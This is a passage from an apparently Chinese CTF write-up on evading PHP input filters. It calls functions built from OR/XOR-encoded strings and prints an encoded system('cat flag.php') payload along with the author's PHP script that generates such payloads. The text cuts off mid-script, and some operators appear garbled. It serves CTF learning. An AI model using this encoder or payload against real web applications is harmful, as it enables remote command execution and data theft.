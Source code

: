 原理是，**在PHP7中**，可以使用('phpinfo')()这种方式执行函数。

payload示例如下：("system")("cat flag.php")

    c=("%13%19%60%60%60%0d"'"%60%60%13%14%25%60")("%03%21%60%00%06%0c%21%27%28%60%60%10"'"%60%40%14%20%60%60%40%40%06%10%28%60")

贴一个自己写的脚本

    <?php

    function generate_code($preg, $code, $mode)
    {
        if ($mode === 3) {
            $result = "";
            for ($i = 0; $i <= strlen($code); $i++) {
                $t = $code[$i];
                $out = dechex(ord(~$t));
                if(strlen($out) === 1){
                    $out = "0".$out;
                }
                $result = $result."%".$out;
            }
            echo "code: (~$result)";
            die();
        }

        $output1 = "";
        $output2 = "";
        for ($ii = 0; $ii < strlen($code); $ii++) {
            $i = $code[$ii]; // 别问这里变量命名怎么这么奇怪 问就是之前不小心写错了懒得改
            $flag = 0;
            for ($j = 0; $j <= 128; $j++) {
                if (preg_match($preg, chr($j))) {
                    continue;
                }
                for ($k = 0; $k <= 128; $k++) {
                    if (preg_match($preg, chr($k))) {
                        continue;
                    }
                    $mode === 1 ? $result = $j ^ $k : $result = $j ' $k;
                    if ($result === ord($i)) {
                        if (strlen(dechex($j)) == 1) {
                            $temp1 = '0' . dechex($j);
                        } else {
                            $temp1 = dechex($j);
                        }
                        if (strlen(dechex($k)) == 1) {
                            $temp2 = '0' . dechex($k);
                        } else {
                            $temp2 = dechex($k);
                        }
                        $output1 = $output1 . "%" . $temp1;
                        $output2 = $output2 . "%" . $temp2;
                        $flag = 1;
                        break;
                    }
                }
                if ($flag === 1) {
                    break;
                }
            }
        }
        // echo "output1:".$output1."\n"."output2:".$output2."\n";
        if ($mode === 1) {
            echo "code: (\"$output1\"^\"$output2\")";